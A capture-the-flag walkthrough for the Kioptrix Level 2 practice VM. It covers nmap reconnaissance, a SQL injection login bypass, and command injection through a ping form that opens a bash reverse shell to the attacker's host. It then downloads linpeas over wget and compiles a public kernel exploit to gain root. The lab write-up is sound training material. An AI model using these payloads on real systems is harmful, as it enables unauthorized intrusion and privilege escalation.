 # Kioptrix Level 2 Walkthrough

# Kioptrix Level 2

## Setup

By default the machine has the network card configured in Bridged mode and it is not recommended so we must configure it in NAT mode which has to be the same interface as our Kali.

To do this before opening the machine in our VMware we go to the configuration file.
![Untitled](Untitled.png)

we open it with our text editor and change the network name to NAT

![Untitled](Untitled%201.png)

```bash
#change
ethernet0.networkName = "Bridged"
#to
ethernet0.networkName = "NAT"
```

Then we open the machine from VMware and change the network interface to NAT.
![Untitled](Untitled%202.png)

We start and a series of windows will appear in which we must select "Do Nothing" in all of them until the machine finishes starting.
![Untitled](Untitled%203.png)

And we should have the machine ready to start.
## Machine Resolution

### Scanning and Vulnerability Analysis

We start with a scan with the arp command to obtain the ip of our machine.


```bash
sudo arp-scan -I eth0 --localnet
```

![Untitled](Untitled%204.png)

Once we have obtained our IP address, we will perform a scan with nmap to discover open ports.

```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.160 -oN Target
```

Output:

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:30 EDT
Initiating ARP Ping Scan at 16:30
Scanning 192.168.66.160 [1 port]
Completed ARP Ping Scan at 16:30, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:30
Scanning 192.168.66.160 [65535 ports]
Discovered open port 111/tcp on 192.168.66.160
Discovered open port 3306/tcp on 192.168.66.160
Discovered open port 22/tcp on 192.168.66.160
Discovered open port 443/tcp on 192.168.66.160
Discovered open port 80/tcp on 192.168.66.160
Discovered open port 996/tcp on 192.168.66.160
Discovered open port 631/tcp on 192.168.66.160
Completed SYN Stealth Scan at 16:30, 4.05s elapsed (65535 total ports)
Nmap scan report for 192.168.66.160
Host is up, received arp-response (0.0025s latency).
Scanned at 2023-08-20 16:30:10 EDT for 4s
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
111/tcp  open  rpcbind  syn-ack ttl 64
443/tcp  open  https    syn-ack ttl 64
631/tcp  open  ipp      syn-ack ttl 64
996/tcp  open  xtreelic syn-ack ttl 64
3306/tcp open  mysql    syn-ack ttl 64
MAC Address: 00:0C:29:60:3D:BB (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.24 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

After a general scan, we will perform another one specifying the ports discovered to see which version of the services are running.

```bash
nmap -p22,80,111,443,631,996,3306 -sCV 192.168.66.160
```

Output:

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:31 EDT
Nmap scan report for 192.168.66.160
Host is up (0.00015s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            993/udp   status
|_  100024  1            996/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2023-08-20T17:22:36+00:00; -3h09m37s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
| http-methods: 
|_  Potentially risky methods: PUT
996/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:60:3D:BB (VMware)

Host script results:
|_clock-skew: -3h09m37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.28 seconds
```

### Explotation

After analyzing the result we see that port 80 is open with the http service, so we go to see the web.

![Untitled](Untitled%205.png)

We observe a login with Username and Password fields.

Let's try to perform a basic SQLInjection command on the Username field.

```bash
' or 1 = 1 -- -
```

And we are successful and the following window appears:

![Untitled](Untitled%206.png)

We observe that it has the function of pinging the ip that we indicate. If we write the ip of the machine we obtain the following:

![Untitled](Untitled%207.png)

We try to concatenate commands with a ";" and see that they can be concatenated:
```bash
192.168.66.160 ; whoami
```

result:

![Untitled](Untitled%208.png)

Once here, we listen to our kali and execute the following command to get a reverse Shell

```bash
#kali
nc -nlvp 4444
#En la web
192.168.66.152 ; bash -i >& /dev/tcp/192.168.66.152/4444 0>&1
```

result:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444                     
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.160] 32779
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### Privilege Escalation

We transfer [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases) from our Kali to the machine to see where we can escalate privileges, for this we start a server with Python in our Kali:

```bash
python3 -m http.server 80
```

and with wget from the machine we download Linpeas.

```bash
wget http://192.168.66.152/linpeas.sh
```

Once we have Linpeas on the target machine we run it and we see the following:

![Untitled](Untitled%209.png)

The machine is a CentOS 4.5 with Linux version 2.6.9.

We searched Google to see if there is a privilege escalation exploit with these characteristics and found the following exploit:

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

We download it to our machine and transfer it as we have done before.

Compile it

```bash
gcc 9542.c -o exploit
```

We give execution permissions

```bash
chmod +x exploit
```

and run it getting a shell as root

```bash
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

and we would have the machine finished.

Best regards and Happy Hacking :)

